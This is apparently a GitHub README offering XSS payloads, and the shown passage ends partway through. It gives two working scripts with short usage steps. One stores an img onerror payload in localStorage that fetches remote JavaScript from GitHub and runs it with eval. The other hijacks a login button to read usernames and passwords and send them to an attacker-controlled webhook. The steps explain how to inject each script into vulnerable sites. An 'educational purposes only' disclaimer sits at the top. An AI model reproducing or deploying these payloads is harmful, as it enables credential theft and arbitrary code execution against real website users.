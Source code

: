# 🚨 XSS Payloads & Exploits 

Warning : This project is for educational purposes only. The author cannot be held responsible for any misuse or illegal use of the scripts in this repository.

## Content

### 1. localstorage.js

```javascript
localStorage.setItem('userName', `"><img src=x onerror="fetch('https://raw.githubusercontent.com/Vault-of-Jok3r/XSS/refs/heads/main/localstorage.js').then(r=>r.text()).then(c=>eval(c))">`);
```

✅ What it does

This payload injects a malicious img tag with an onerror handler that dynamically loads and executes the content of localstorage.js from your GitHub repository.

✅ Purpose

Demonstrates stored XSS via localStorage.
Creates a persistent XSS that executes every time the application reads the stored value and renders it unsanitized.

✅ How to use

Inject this payload into a vulnerable input field that stores its value in localStorage and outputs it in the DOM without proper escaping.

### 2. chargebutton.js

```javascript
var btn = document.getElementById('kc-login');

if (btn) {
    btn.onclick = function() {
        var passwordInput = document.getElementById('password');
        if (passwordInput) {
            passwordInput.type = 'text';
        }
        var username = document.getElementById('username').value;
        var password = document.getElementById('password').value;

        new Image().src = '<WEBHOOK_URL>/?username=' + encodeURIComponent(username) + '&password=' + encodeURIComponent(password);
    };
}
```

✅ What it does

Hooks into a login button (kc-login), intercepts the login action, reveals the password, and sends both username and password to your webhook.

✅ Purpose

Exfiltrates credentials from login forms.
Can be loaded via XSS to steal credentials without user awareness.

✅ How to use

Replace <WEBHOOK_URL> with your controlled endpoint (e.g., webhook.site, Discord, or custom server).
Inject the following payload to load the script dynamically:
